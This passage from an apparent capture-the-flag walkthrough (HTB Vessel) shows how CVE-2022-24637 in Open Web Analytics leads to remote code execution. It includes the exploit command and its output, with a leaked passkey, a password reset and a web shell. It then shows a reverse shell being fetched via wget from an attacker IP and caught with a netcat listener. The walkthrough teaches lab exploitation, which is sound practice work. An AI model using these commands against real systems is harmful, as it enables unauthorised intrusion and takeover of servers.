 1) Once logged in as admin, there is a poc that exploits the settings page: [https://github.com/watchdog2000/cve-2022-24637_open-web-analytics-info-disclosure-to-rce](https://github.com/watchdog2000/cve-2022-24637_open-web-analytics-info-disclosure-to-rce)
2) For details about how this exploit works, read the second vulnerability on [https://devel0pment.de/?p=2494#vuln2](https://devel0pment.de/?p=2494#vuln2). Basically, there is lacking restriction on the config checking, so this can be exploited to set a different `base.error_log_file` (can be a php file) and a different logging level `base.error_log_level`.
```python
> python3 cve-2022-24637.py -u http://openwebanalytics.vessel.htb/ -U admin -P test123
```
```
[+] - Found cache url: http://openwebanalytics.vessel.htb//owa-data/caches/1/owa_user/c30da9265ba0a4704db9229f864c9eb7.php
[+] - Downloaded cache
[+] - Found passkey: c849df0b12c44d26568c2be0e99e4862
[+] - Changed password of user admin to 'test123'
[+] - Submitted update for log file, ready for RCE...
SHELL> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
3) Note that this shell is very unstable, you’d better upgrade to a better shell:
```
> cp /usr/share/webshells/php/php-reverse-shell.php w.php
# change the IP and port

# in the owa rce shell
SHELL> wget http://10.10.16.59/w.php

# run a nc listener and browse to http://openwebanalytics.vessel.htb/owa-data/logs/w.php in the browser
```
4) Once receiving a better shell